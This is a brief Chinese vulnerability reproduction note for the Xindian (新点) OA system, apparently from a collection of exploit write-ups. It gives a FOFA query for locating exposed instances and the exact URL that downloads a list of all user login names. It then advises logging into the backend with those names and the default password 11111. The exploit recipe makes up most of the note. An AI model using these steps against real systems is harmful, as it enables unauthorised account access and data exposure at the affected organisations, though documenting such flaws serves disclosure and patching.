 # 新点OA ExcelExport 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

```
新点OA
```

## 网络测绘

```
app="新点OA"
```

## 漏洞复现

构造的Url为

```plain
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![xindian](./images/xindian.png)

通过获取的登录名登陆后台(默认密码11111)